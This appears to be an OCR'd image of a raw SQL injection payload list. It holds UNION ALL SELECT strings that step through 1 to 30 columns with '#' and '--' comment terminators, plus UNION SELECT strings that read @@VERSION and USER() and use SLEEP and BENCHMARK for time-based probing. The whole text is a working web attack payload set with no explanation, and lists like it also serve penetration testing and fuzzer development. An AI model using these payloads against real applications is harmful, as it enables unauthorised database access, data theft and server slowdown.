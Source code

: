  UNION ALL SELECT 1,2,3,4,5,6,7,8#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29#
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30#
 UNION ALL SELECT 1-- 
 UNION ALL SELECT 1,2-- 
 UNION ALL SELECT 1,2,3-- 
 UNION ALL SELECT 1,2,3,4-- 
 UNION ALL SELECT 1,2,3,4,5-- 
 UNION ALL SELECT 1,2,3,4,5,6-- 
 UNION ALL SELECT 1,2,3,4,5,6,7-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29-- 
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30-- 
 UNION SELECT @@VERSION,SLEEP(5),3
 UNION SELECT @@VERSION,SLEEP(5),USER(),4
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13